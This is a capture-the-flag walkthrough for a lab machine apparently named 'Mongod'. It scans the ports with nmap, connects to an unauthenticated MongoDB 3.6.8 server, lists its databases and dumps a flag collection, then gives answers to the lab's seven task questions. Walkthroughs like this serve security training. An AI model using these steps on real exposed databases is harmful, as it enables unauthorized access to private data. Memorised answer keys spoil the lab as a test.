







# Mongod      


## Solution

### Scan with nmap

Type:

```
nmap -p- -sV {target ip} -v
```



Port 22/tcp is open. Service is `ssh`, version `OpenSSH 8.2p1` (Ubuntu 4ubuntu0.5) on `Ubuntu Linux` (protocol 2.0).

Port 27017/tcp is open. Service is `mongodb`, version `MongoDB 3.6.8`. 

### MongoDB

First, let's try with `mongodb` as it's mentioned in challenge name.

Type:

```
mongo {target ip}
```



As we are in, we want to see the databases present.

Type:

```
show dbs
```



Then:

```
use sensitive_information
```



Next:

```
show collections
```



### Get the flag

Flag is there. Now paste:

```
db.flag.find()
```


or you can paste:

```
db.flag.find().pretty()
```

to have an even nicer output.



You found the flag. Cheers.

### Paste the flag


## Answers

### Task-1: How many TCP ports are open on the machine?

2

### Task-2: Which service is running on port 27017 of the remote host?

MongoDB 3.6.8

### Task-3: What type of database is MongoDB? (Choose: SQL or NoSQL)

NoSQL

### Task-4: What is the command name for the Mongo shell that is installed with the mongodb-clients package?

mongo

### Task-5: What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

show dbs

### Task-6: What is the command used for listing out the collections in a database? (No need to include a trailing ;)

show collections

### Task-7: What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

db.flag.find().pretty()

### Submit root flag

Niceeeee.